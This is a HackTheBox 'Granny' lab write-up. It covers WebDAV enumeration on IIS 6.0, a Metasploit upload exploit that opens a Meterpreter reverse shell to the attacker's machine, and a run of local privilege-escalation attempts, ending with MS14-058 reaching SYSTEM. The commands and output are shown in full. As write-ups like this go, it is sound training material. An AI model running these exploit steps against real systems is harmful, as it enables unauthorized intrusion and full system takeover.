


HackTheBox - Granny
Reconnaissance
export ip=10.10.10.15
Starting with a Nmap TCP scan to discover used ports and services behind, with our usual options:
-sCruns defaults Nmap scripts-sVtries to identify the software versions-oAwill output the results in files prefixed by nmap_tcp and using the formats xml, nmap and gnmap-p-will scan all ports and not the 1000 usual ones
$ sudo nmap -O -sV -sC -oA nmap_tcp -p- $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-06 15:14 CET
Stats: 0:01:32 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 23.27% done; ETC: 15:21 (0:05:00 remaining)
Nmap scan report for 10.10.10.15
Host is up (0.13s latency).
Not shown: 65534 filtered ports
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 6.0
| http-methods:
|_ Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
| Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
| Server Type: Microsoft-IIS/6.0
| WebDAV type: Unknown
| Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_ Server Date: Fri, 06 Nov 2020 14:24:12 GMT
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device
Running (JUST GUESSING): Microsoft Windows 2003|2000|XP|PocketPC/CE (93%), BT embedded (85%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_2000::sp3 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp1 cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_ce:5.0.1400 cpe:/h:btvision:btvision%2b_box
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (93%), Microsoft Windows Server 2003 SP2 (93%), Microsoft Windows Server 2003 SP1 (92%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (90%), Microsoft Windows 2000 SP4 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows Server 2003 (88%), Microsoft Windows 2000 Server SP4 (88%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 286.70 seconds
UDP scans (with the -sU flag) in the background:
$ sudo nmap -sU -oA nmap_udp_light $ip
Nmap scan report for 10.10.10.15
Host is up (0.039s latency).
All 1000 scanned ports on 10.10.10.15 are open|filtered
Nmap done: 1 IP address (1 host up) scanned in 5.55 seconds
$ sudo nmap -sU -oA nmap_udp -p- $ip
[ that scan didn't finished before I rooted the machine... ]
So, no services on UDP, and a webserver with WebDAV on port 80 for TCP.
Website - port 80
Site
Visiting http://10.10.10.15, we land on a “Under Construction” page:

I didn’t run a gobuster scan on this website, I went straight for the WebDAV.
WebDAV
Nmap
From the nmap scan results, we know there’s a webDAV hosted and that potentially dangerous methods like PUT, MOVE are available.
| http-webdav-scan:
| Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
| Server Type: Microsoft-IIS/6.0
| WebDAV type: Unknown
| Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Davtest
To do some recon on the webdav side, davtest can test which types of files can be uploaded/executed:
$ davtest -url http://10.10.10.15/
********************************************************
Testing DAV connection
OPEN SUCCEED: http://10.10.10.15
********************************************************
NOTE Random string for this session: cWtIM05el597
********************************************************
Creating directory
MKCOL SUCCEED: Created http://10.10.10.15/DavTestDir_cWtIM05el597
********************************************************
Sending test files
PUT asp FAIL
PUT txt SUCCEED: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.txt
PUT aspx FAIL
PUT shtml FAIL
PUT php SUCCEED: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.php
PUT jsp SUCCEED: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.jsp
PUT pl SUCCEED: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.pl
PUT cfm SUCCEED: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.cfm
PUT cgi FAIL
PUT jhtml SUCCEED: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.jhtml
PUT html SUCCEED: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.html
********************************************************
Checking for test file execution
EXEC txt SUCCEED: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.txt
EXEC php FAIL
EXEC jsp FAIL
EXEC pl FAIL
EXEC cfm FAIL
EXEC jhtml FAIL
EXEC html SUCCEED: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.html
********************************************************
davtest.pl Summary:
Created: http://10.10.10.15/DavTestDir_cWtIM05el597
PUT File: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.txt
PUT File: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.php
PUT File: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.jsp
PUT File: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.pl
PUT File: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.cfm
PUT File: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.jhtml
PUT File: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.html
Executes: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.txt
Executes: http://10.10.10.15/DavTestDir_cWtIM05el597/davtest_cWtIM05el597.html
So, we can PUT some files (.txt, .php, .jsp, …) as long as they are not .asp or .aspx. Which is a problem, since it’s a IIS server and it uses exactly those 2 forbidden extensions. The restriction on asp(x) files could be a problem if we want to upload a webshell, but we could upload it as txt and rename it maybe?
Shell as network Service
Alright, let’s fire up metasploit and see if there’s any exploit for webdav and IIS:

Modules number 17 “Microsoft IIS WebDAV Write Access Local Privilege Escalation” sounds very promising!
msf5 > use exploit/windows/iis/iis_webdav_upload_asp
msf5 exploit(windows/iis/iis_webdav_upload_asp) > setg RHOSTS 10.10.10.15
RHOSTS => 10.10.10.15
msf5 exploit(windows/iis/iis_webdav_upload_asp) > setg LHOST tun0
LHOST => tun0
show options
Module options (exploit/windows/iis/iis_webdav_upload_asp):
Name Current Setting Required Description
---- --------------- -------- -----------
HttpPassword no The HTTP password to specify for authentication
HttpUsername no The HTTP username to specify for authentication
METHOD move yes Move or copy the file on the remote system from .txt -> .asp (Accepted: move, copy)
PATH /metasploit%RAND%.asp yes The path to attempt to upload
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS 10.10.10.15 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 80 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
VHOST no HTTP server virtual host
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST tun0 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
msf5 exploit(windows/iis/iis_webdav_upload_asp) > run
[*] Started reverse TCP handler on 10.10.14.25:4444
[*] Checking /metasploit200517243.asp
[*] Uploading 612507 bytes to /metasploit200517243.txt...
[*] Moving /metasploit200517243.txt to /metasploit200517243.asp...
[*] Executing /metasploit200517243.asp...
[*] Deleting /metasploit200517243.asp (this doesn't always work)...
[*] Sending stage (176195 bytes) to 10.10.10.15
[!] Deletion failed on /metasploit200517243.asp [403 Forbidden]
[*] Meterpreter session 1 opened (10.10.14.25:4444 -> 10.10.10.15:1032) at 2020-11-06 18:32:01 +0100
Bam, good news, we have a shell as network service:
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2664 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
User.txt
Buh, we got a shell, but no user.txt for us:
C:\Documents and Settings>dir
dir
Volume in drive C has no label.
Volume Serial Number is 246C-D7FE
Directory of C:\Documents and Settings
04/12/2017 09:19 PM <DIR> .
04/12/2017 09:19 PM <DIR> ..
04/12/2017 08:48 PM <DIR> Administrator
04/12/2017 04:03 PM <DIR> All Users
04/12/2017 09:19 PM <DIR> Lakis
0 File(s) 0 bytes
5 Dir(s) 18,123,341,824 bytes free
C:\Documents and Settings>cd Lakis
cd Lakis
Access is denied.
I still have no idea what that account is for…
Privesc
systeminfo
Let’s grab the systeminfo output and dump that into a textfile:
c:\windows\system32\inetsrv>systeminfo
systeminfo
Host Name: GRANNY
OS Name: Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version: 5.2.3790 Service Pack 2 Build 3790
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Server
OS Build Type: Uniprocessor Free
Registered Owner: HTB
Registered Organization: HTB
Product ID: 69712-296-0024942-44782
Original Install Date: 4/12/2017, 5:07:40 PM
System Up Time: 0 Days, 3 Hours, 21 Minutes, 20 Seconds
System Manufacturer: VMware, Inc.
System Model: VMware Virtual Platform
System Type: X86-based PC
Processor(s): 1 Processor(s) Installed.
[01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~1998 Mhz
BIOS Version: INTEL - 6040000
Windows Directory: C:\WINDOWS
System Directory: C:\WINDOWS\system32
Boot Device: \Device\HarddiskVolume1
System Locale: en-us;English (United States)
Input Locale: en-us;English (United States)
Time Zone: (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory: 1,023 MB
Available Physical Memory: 774 MB
Page File: Max Size: 2,470 MB
Page File: Available: 2,305 MB
Page File: In Use: 165 MB
Page File Location(s): C:\pagefile.sys
Domain: HTB
Logon Server: N/A
Hotfix(s): 1 Hotfix(s) Installed.
[01]: Q147222
Network Card(s): N/A
Let’s put our session in background for the time being:
C:\Documents and Settings>^C
Terminate channel 2? [y/N] y
meterpreter > background
[*] Backgrounding session 1...
From my host, I ran Windows Exploit Suggester on the systeminfo dump:
$ python2 /mnt/hgfs/toolz/windows/windows-exploit-suggester.py --database /mnt/hgfs/toolz/windows/2020-11-04-mssb.xls --systeminfo loot/systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2003 SP2 32-bit'
[*]
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*] https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*] https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*]
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*] https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*] https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*] https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*]
[E] MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important
[*] http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC
[*]
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*] http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*]
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*] https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*] http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*] http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*] http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*] http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*] http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*]
[M] MS14-062: Vulnerability in Message Queuing Service Could Allow Elevation of Privilege (2993254) - Important
[*] http://www.exploit-db.com/exploits/34112/ -- Microsoft Windows XP SP3 MQAC.sys - Arbitrary Write Privilege Escalation, PoC
[*] http://www.exploit-db.com/exploits/34982/ -- Microsoft Bluetooth Personal Area Networking (BthPan.sys) Privilege Escalation
[*]
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*] http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*]
[E] MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important
[*] https://www.exploit-db.com/exploits/39525/ -- Microsoft Windows 7 x64 - afd.sys Privilege Escalation (MS14-040), PoC
[*] https://www.exploit-db.com/exploits/39446/ -- Microsoft Windows - afd.sys Dangling Pointer Privilege Escalation (MS14-040), PoC
[*]
[E] MS14-035: Cumulative Security Update for Internet Explorer (2969262) - Critical
[E] MS14-029: Security Update for Internet Explorer (2962482) - Critical
[*] http://www.exploit-db.com/exploits/34458/
[*]
[E] MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important
[*] http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC
[*]
[M] MS14-012: Cumulative Security Update for Internet Explorer (2925418) - Critical
[M] MS14-009: Vulnerabilities in .NET Framework Could Allow Elevation of Privilege (2916607) - Important
[E] MS14-002: Vulnerability in Windows Kernel Could Allow Elevation of Privilege (2914368) - Important
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-097: Cumulative Security Update for Internet Explorer (2898785) - Critical
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[M] MS13-080: Cumulative Security Update for Internet Explorer (2879017) - Critical
[M] MS13-071: Vulnerability in Windows Theme File Could Allow Remote Code Execution (2864063) - Important
[M] MS13-069: Cumulative Security Update for Internet Explorer (2870699) - Critical
[M] MS13-059: Cumulative Security Update for Internet Explorer (2862772) - Critical
[M] MS13-055: Cumulative Security Update for Internet Explorer (2846071) - Critical
[M] MS13-053: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (2850851) - Critical
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*] http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*] http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*]
[M] MS11-080: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege (2592799) - Important
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[M] MS09-065: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (969947) - Critical
[M] MS09-053: Vulnerabilities in FTP Service for Internet Information Services Could Allow Remote Code Execution (975254) - Important
[M] MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
[M] MS09-004: Vulnerability in Microsoft SQL Server Could Allow Remote Code Execution (959420) - Important
[M] MS09-002: Cumulative Security Update for Internet Explorer (961260) (961260) - Critical
[M] MS09-001: Vulnerabilities in SMB Could Allow Remote Code Execution (958687) - Critical
[M] MS08-078: Security Update for Internet Explorer (960714) - Critical
[*] done
From the results, I picked vulnerabilities that had metasploit modules and tried them… I prioritized vulnerabilities targeting Windows itself while still picking a bit randomly in the list :‘D
MS15-051 - Fail
msf5 exploit(windows/iis/iis_webdav_upload_asp) > search MS15-051
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/local/ms15_051_client_copy_image 2015-05-12 normal Yes Windows ClientCopyImage Win32k Exploit
msf5 exploit(windows/iis/iis_webdav_upload_asp) > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms15_051_client_copy_image) > show options
Module options (exploit/windows/local/ms15_051_client_copy_image):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 172.16.149.138 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Windows x86
msf5 exploit(windows/local/ms15_051_client_copy_image) > setg LHOST tun0
LHOST => tun0
msf5 exploit(windows/local/ms15_051_client_copy_image) > show options
Module options (exploit/windows/local/ms15_051_client_copy_image):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 172.16.149.138 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Windows x86
msf5 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0
LHOST => tun0
msf5 exploit(windows/local/ms15_051_client_copy_image) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ms15_051_client_copy_image) > run
[-] Exploit failed: One or more options failed to validate: SESSION.
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/ms15_051_client_copy_image) > run
[*] Started reverse TCP handler on 10.10.14.25:5555
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getsid: Operation failed: Access is denied.
[*] Exploit completed, but no session was created.
MS16-016 - Fail
This one was not in the results of windows exploit suggester, rather in the results of metasploit when searching for webdav:
24 exploit/windows/local/ms16_016_webdav 2016-02-09 excellent Yes MS16-016 mrxdav.sys WebDav Local Privilege Escalation
It looked like a good fit, so I tried it:
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_016_webdav
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms16_016_webdav) > show options
Module options (exploit/windows/local/ms16_016_webdav):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 172.16.149.138 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Windows 7 SP1
msf5 exploit(windows/local/ms16_016_webdav) > set session 1
session => 1
msf5 exploit(windows/local/ms16_016_webdav) > set LHOST tun0
LHOST => tun0
msf5 exploit(windows/local/ms16_016_webdav) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ms16_016_webdav) > run
[*] Started reverse TCP handler on 10.10.14.25:5555
[*] Launching notepad to host the exploit...
[+] Process 3764 launched.
[*] Reflectively injecting the exploit DLL into 3764...
[*] Exploit injected ... injecting payload into 3764...
[*] Done. Verify privileges manually or use 'getuid' if using meterpreter to verify exploitation.
[*] Exploit completed, but no session was created.
And it looked like it succeeds but it doesn’t :)))
MS14-058 - Fail
msf5 > search MS14-058
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/local/ms14_058_track_popup_menu 2014-10-14 normal Yes Windows TrackPopupMenu Win32k NULL Pointer Dereference
msf5 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show options
Module options (exploit/windows/local/ms14_058_track_popup_menu):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 172.16.149.138 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Windows x86
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set LHOST tun0
LHOST => tun0
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show options
Module options (exploit/windows/local/ms14_058_track_popup_menu):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION 1 yes The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST tun0 yes The listen address (an interface may be specified)
LPORT 5555 yes The listen port
Exploit target:
Id Name
-- ----
0 Windows x86
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run
[*] Started reverse TCP handler on 10.10.14.25:5555
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getsid: Operation failed: Access is denied.
[*] Exploit completed, but no session was created.
More recon - metasploit’s local exploit suggester
At that point, I decided to cross-reference results with another exploit suggester, the one bundled in metasploit this time:
msf5 > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > show options
Module options (post/multi/recon/local_exploit_suggester):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on
SHOWDESCRIPTION false yes Displays a detailed description for the available exploits
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
It also lists MS14-058 and I’m pretty sure it should have worked. But 2 out of 3 exploits throwed an error:
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getsid: Operation failed: Access is denied.
Maybe my meterpreter is not in a very stable process then? What if we migrate to a clean process and try again?
First, I listed my sessions and re-enabled session 1 to bring back my meterpreter:
msf5 > sessions
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 meterpreter x86/windows 10.10.14.25:4444 -> 10.10.10.15:1032 (10.10.10.15)
msf5 > sessions -i 1
[*] Starting interaction with 1...
meterpreter > ps
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
0 0 [System Process]
4 0 System
272 4 smss.exe
324 272 csrss.exe
348 272 winlogon.exe
396 348 services.exe
408 348 lsass.exe
604 396 svchost.exe
676 396 svchost.exe
732 396 svchost.exe
768 396 svchost.exe
796 396 svchost.exe
932 396 spoolsv.exe
960 396 msdtc.exe
1072 396 cisvc.exe
1120 396 svchost.exe
1176 396 inetinfo.exe
1212 396 svchost.exe
1328 396 VGAuthService.exe
1408 396 vmtoolsd.exe
1460 396 svchost.exe
1600 396 svchost.exe
1700 396 alg.exe
1836 604 wmiprvse.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\wbem\wmiprvse.exe
1856 2300 cmd.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\cmd.exe
1912 396 dllhost.exe
2244 348 logon.scr
2300 3804 svchost.exe x86 0 C:\WINDOWS\Temp\radE959E.tmp\svchost.exe
2304 604 wmiprvse.exe
4004 1072 cidaemon.exe
4048 1072 cidaemon.exe
4072 1072 cidaemon.exe
I then ran post/windows/manage/migrate which will spawn a new notepad.exe and migrate to it:
meterpreter > run post/windows/manage/migrate
[*] Running module against GRANNY
[*] Current server process: svchost.exe (2300)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 748
[+] Successfully migrated into process 748
MS14-058 - Take 2
Now that we are in a clean state, let’s try MS14-058 again ~~
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run
[*] Started reverse TCP handler on 10.10.14.25:5555
[*] Launching notepad to host the exploit...
[+] Process 2224 launched.
[*] Reflectively injecting the exploit DLL into 2224...
[*] Injecting exploit into 2224...
[*] Exploit injected. Injecting payload into 2224...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.25:5555 -> 10.10.10.15:1035) at 2020-11-06 19:41:05 +0100
Well. It worked immediately this time ~~
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
Here’s our shell as NT AUTHORITY\SYSTEM, from there, we can grab both flags:
- root.txt
C:\Documents and Settings\Administrator\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is 246C-D7FE
Directory of C:\Documents and Settings\Administrator\Desktop
04/12/2017 04:28 PM <DIR> .
04/12/2017 04:28 PM <DIR> ..
04/12/2017 09:17 PM 32 root.txt
1 File(s) 32 bytes
2 Dir(s) 18,122,559,488 bytes free
- user.txt
C:\Documents and Settings\Lakis\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is 246C-D7FE
Directory of C:\Documents and Settings\Lakis\Desktop
04/12/2017 09:19 PM <DIR> .
04/12/2017 09:19 PM <DIR> ..
04/12/2017 09:20 PM 32 user.txt
